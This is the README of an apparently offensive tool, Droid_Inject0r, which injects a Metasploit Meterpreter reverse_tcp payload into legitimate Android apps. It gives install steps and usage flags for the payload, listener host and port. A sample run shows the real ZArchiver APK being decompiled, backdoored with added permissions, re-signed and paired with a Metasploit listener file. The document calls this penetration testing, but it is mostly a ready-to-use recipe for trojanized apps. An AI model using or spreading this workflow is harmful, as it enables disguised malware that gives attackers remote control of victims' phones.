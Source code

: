 # Droid_Inject0r

Droid_Inject0r is a Python script to inject existing Android applications with a Meterpreter payload. It can be used during penetrating testing or security assessments.


[![asciicast](https://asciinema.org/a/rj1t7W7CNfFUsPtTBWzvz2Oci.png)](https://asciinema.org/a/rj1t7W7CNfFUsPtTBWzvz2Ocir)

```
    [+] AUTOR:        Yasser Janah
    [+] GITHUB:       https://github.com/Y4SS3R005
    [+] TWITTER:      https://twitter.com/Y4ss3rJ4n4h
    [+] FACEBOOK:     https://fb.com/yasserjanah19
```
# Getting the code

Firstly get the code:
```
git clone https://github.com/Y4SS3R005/Droid_Inject0r.git
cd Droid_Inject0r/
chmod +x install_requirements.sh
./install_requirements.sh
```
# Usage

```
Usage: python2 Droid_apk_Inject0r.py -p [PAYLOAD] --lhost=[LHOST] --lport=[PORT] --apkfile=[APKFILE]
    << Coded by : Yasser Janah >>
    << Facebook : https://facebook.com/yasserjanah19 >>
    << Twitter  : https://twitter.com/Y4ss3rJ4n4h >>
    << Github   : https://github.com/Y4SS3R005/ >>
    -p  , --payload        a metasploit android payload (e.x android/meterpreter/reverse_tcp) (not required)
    -lh , --lhost          The listen address (not required)
    -lp , --lport          The listen port (default 4444)
    -ap , --apkfile        path of apkfile (required!!)
```

# Need just select the apkfile 
```
$ ./Droid_apk_Inject0r.py --apkfile zarchiver0-8-3.apk

[*] payload not selected .. default 'android/meterpreter/reverse_tcp'
[*] LHOST not selected .. using '192.168.43.230'
[*] LPORT not selected .. using '4444'
[+] Generating payload:  Generated.
[+] Decompling payload:  Decompiled.
[+] Decompling 'zarchiver0-8-3.apk':  Decompiled.
[+] Copying payload files into 'zarchiver0-8-3.apk':  Done.
[*] Parsing AndroidManifest file
[*] Activity PATH : 'ru/zdevs/zarchiver'
[*] SMALI File    : 'ZArchiver.smali'
[+] Injecting payload into 'zarchiver0-8-3.apk':  Injected.
[+] Get Permissions from payload AndroidManifest file:  Done.
[+] Add Permissions into 'zarchiver0-8-3.apk' AndroidManifest file:  Permissions Added.
[+] Recompling 'zarchiver0-8-3.apk':  Recompiled.
[+] Signing 'zarchiver0-8-3.apk':  Signed.

[+] metasploit rc file : '/home/mcsc/Droid_Inject0r/droid_apk.rc'

[+] final apk : '/home/mcsc/Droid_Inject0r/zarchiver0-8-3-final.apk'

```
